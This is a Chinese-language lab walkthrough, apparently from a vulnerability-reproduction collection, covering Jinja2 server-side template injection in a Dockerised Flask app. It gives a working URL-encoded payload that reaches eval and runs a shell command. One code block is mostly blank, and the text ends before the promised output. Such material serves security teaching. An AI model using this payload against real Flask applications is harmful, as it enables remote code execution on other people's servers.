

# Flask（Jinja2）服务端模板注入漏洞

Flask是一个流行的Python Web框架，使用Jinja2作为其模板引擎。当用户输入未经适当过滤就直接在Jinja2模板中渲染时，可能会导致服务端模板注入（SSTI）漏洞，进而可能导致远程代码执行。

参考链接：

- <https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf>
- <http://rickgray.me/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates>

## 环境搭建

执行如下命令启动一个基于Flask 1.1.1的Web应用：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8000/`即可查看到默认页面。

## 漏洞复现

首先，访问以下URL验证SSTI漏洞是否存在：

```
http://your-ip:8000/?name={{233*233}}
```

如果看到结果`54289`，则证实存在SSTI漏洞。

要实现远程代码执行，可以使用以下POC获取`eval`函数并执行任意Python代码：

```python


  
  
    
      {{ b['eval']('__import__("os").popen("id").read()') }}
    
  
  


```

访问以下URL（POC已进行URL编码）执行命令：

```
http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

命令执行结果将会显示：


